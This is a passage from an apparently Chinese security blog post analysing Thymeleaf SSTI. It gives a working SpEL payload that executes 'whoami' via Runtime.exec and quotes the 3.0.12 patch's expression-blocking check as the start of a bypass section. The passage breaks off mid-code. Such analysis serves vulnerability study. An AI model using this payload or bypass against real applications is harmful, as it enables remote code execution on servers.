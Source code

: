 里面就是EL表达式解析了。这样第一个payload也就不难理解了

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream()).next()}__::.k
```

至于后面的`.k`是要符合语法。`~{...}`这个语法是3.x版本引入的，所以在2.x版本不会受影响。

## 0x03 Thymeleaf SSTI Bypass

官方发送的通告中，3.0.12版本进行了修复，通过github的diff发现

![image-20220612102856310](https://img.dem0dem0.top/images/image-20220612102856310.png)

```java
 private static final char[] NEW_ARRAY = "wen".toCharArray(); // Inverted "new"
    private static final int NEW_LEN = NEW_ARRAY.length;


    public static boolean containsSpELInstantiationOrStatic(final String expression) {

        /*
         * Checks whether the expression contains instantiation of objects ("new SomeClass") or makes use of
         * static methods ("T(SomeClass)") as both are forbidden in certain contexts in restricted mode.
         */
        final int explen = expression.length();
        int n = explen;
        int ni = 0; // index for computing position in the NEW_ARRAY
        int si = -1;
        char c;
        while (n-- != 0) {
            c = expression.charAt(n);
            // When checking for the "new" keyword, we need to identify that it is not a part of a larger
            // identifier, i.e. there is whitespace after it and no character that might be a part of an
            // identifier before it.
            if (ni < NEW_LEN
                    && c == NEW_ARRAY[ni]
                    && (ni > 0 || ((n + 1 < explen) && Character.isWhitespace(expression.charAt(n + 1))))) {
                ni++;
                if (ni == NEW_LEN && (n == 0 || !Character.isJavaIdentifierPart(expression.charAt(n - 1)))) {
                    return true; // we found an object instantiation
                }
                continue;
            }
            if (ni > 0) {
                // We 'restart' the matching counter just in case we had a partial match
                n += ni;
                ni = 0;
                if (si < n) {
                    // This has to be restarted too
                    si = -1;
                }
                continue;
            }
            ni = 0;
            if (c == ')') {
                si = n;
            } else if (si > n && c == '('
```